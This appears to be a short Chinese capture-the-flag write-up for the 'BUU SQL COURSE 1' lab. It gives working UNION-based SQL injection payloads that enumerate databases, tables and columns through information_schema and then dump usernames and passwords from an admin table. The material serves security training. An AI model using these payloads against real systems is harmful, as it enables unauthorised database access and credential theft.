


# BUU SQL COURSE 1
初级sql注入。。。\
可以玩一个工具burp suite哈哈哈\

在这个页面尝试id=1 and 1=1和id=1 and 1=2回显\
发现存在sql注入点...

接下来暴库, 暴表和暴字段...
```
暴库：（information_schema,ctftraining,mysql,performance_schema,test,news）
?id=-1 UNION SELECT 1,group_concat(schema_name) from information_schema.schemata

暴表：（admin,contents）
?id=-1 UNION SELECT 1,group_concat(table_name) from information_schema.tables where table_schema="news"

暴字段：（id,username,password）
?id=-1 UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_name="admin"

暴密码：
?id=-1 UNION SELECT 1,concat(username,0x3a,password) from admin
```
